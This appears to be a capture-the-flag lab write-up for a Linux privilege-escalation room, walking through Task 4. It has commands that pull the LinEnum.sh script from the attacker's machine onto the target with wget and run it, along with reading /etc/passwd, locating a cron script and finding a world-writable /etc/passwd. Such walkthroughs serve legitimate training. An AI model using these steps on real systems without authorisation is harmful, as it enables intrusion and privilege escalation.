 ```yaml
---
title: Common Linux PrivEsc detailed write-up
published: true
---
```

Tasks **1**, **2** and **3** don't need explanation.

## Task 4

To get LinEnum on the target's machine, you need to start a server on your local machine (it has to be in the directory where you store LinEnum.sh or you will have to provide the path to it afterwards) and connect to it from the target :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/python%20listener%20server4.png" class="border" />
 
```
python3 -m http.server 8000
```

>The `-m` option is used to search a module and run the corresponding python script, which in this case is an http server.
>The number 8000 is the port that our server will be listening in, you can select any port that's not being used.

Once the server is started, you can request the file you want from the target's console :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/wget%20linenum4.png" class="border" />

```
wget <YOUR MACHINE'S @IP>:8000/LinEnum.sh
```

>`wget` is a network downloader
>By using this command, we are downloading the file `LinEnum.sh` from the server in <YOUR MACHINE'S @IP> that we started before.


Now that LinEnum.sh is on the target's machine, we need to make it executable (because we need to run it in order to start the enumeration process), this is done by using :

```
chmod +x LinEnum.sh
```

To see how Linux file permissions work, you can visit [this page](https://www.redhat.com/sysadmin/manage-permissions) 

Let's now look at how many "user[x]" are there in the system :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/grep%20user4.png" class="border" />

```
cat /etc/passwd | grep user*
```
>What we are doing with `cat` is showing in stdout (Standard Output) the contents of the file `/etc/passwd` and piping them into a `grep` command.
>
>`grep` allows us to look for patterns in texts, by typing `grep user*` we are searching for any pattern that contains the word "user" and any other character next to it (this is why we use the wildcard *)

**As we can observe, there are 8 user[x] in the system.**

For a beteter understanding of wildcards in Linux, you can visit [this page](https://geek-university.com/linux/wildcard/) 

The next step is to find how many shells are there on the system, to guess so, we need to start enumerating with `LinEnum.sh`.
You can run the script with :

```
./LinEnum.sh
```
>Remember that you have previously dowloaded it, given the proper permissions and you are working in the directory where it is located.

A better way of keeping our enumeration clean and easily manageable is to write the output of `LinEnum.sh` to a `.txt` file :

```
./LinEnum.sh > LinEnum.txt
```

> The file can be named as what you want, but I recommend using a name such as "LinEnum" or "Enumeration".

Once we have run the script, we can look for how many shels there are on the system :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/grep%20shell4.png" class="border" />

```
cat linEnum.txt | grep shell
```

**There are 4 shells in the system**

We are now asked what is the name of the bash script that is set to run every 5 minutes by cron.
Cron is used to automate tasks in Linux, its syntax can be a little bit tricky so if you need some more info you can have a look at [this site](https://linuxhandbook.com/crontab/)

Cron jobs are displayed in each user's /etc/crontab file, but since we run `LinEnum.sh` to do the work for us, we can just look for it at its output :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/grep%20crontab%204.png" class="border" />

```
cat linEnum.txt | grep crontab -C 10
```

>If you have read the previous tasks, you already know what this is doing, the only novelty is the `-C` option, which specifies how many lines of context you want to display.

**As shown in this output, the `autoscript.sh` file is located in `/home/user4/Desktop directory`**

Finally, we want to search for a file that has had its permissions changed, and now users are allowed to write to it :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/etc%20passwd%20perms4.png" class="border" />

```
find / -perm -200 2>/dev/null
ls -l /etc/passwd
```

>With the `find` command, we can look for files with concrete permissions by using the option `-perm`, to find files with user writing permissions we can look for `-200`, which shows every file which permissions are set to 200 or more.
>
>With `2>/dev/null`, we redirect the stderr (Standard Error) to /dev/null, which is kind of a "black hole" that discards all the data that is writen to it.
>
>For more info on stderr, visit [this page](https://www.howtogeek.com/435903/what-are-stdin-stdout-and-stderr-on-linux/). For more info on /dev/null, check [here](https://en.wikipedia.org/wiki/Null_device).
>
>A lot of files will be shown, but since /etc/passwd is such an important file, we can check its permissions with `ls -l` and see that it can be writen to.


## Task 5

<style>
  .border {   
  border-width: 0px;
  border-color: #7FFF00;
  border-style: groove;
  box-shadow: 0px 0px 8px #ADFF2F} 
</style>
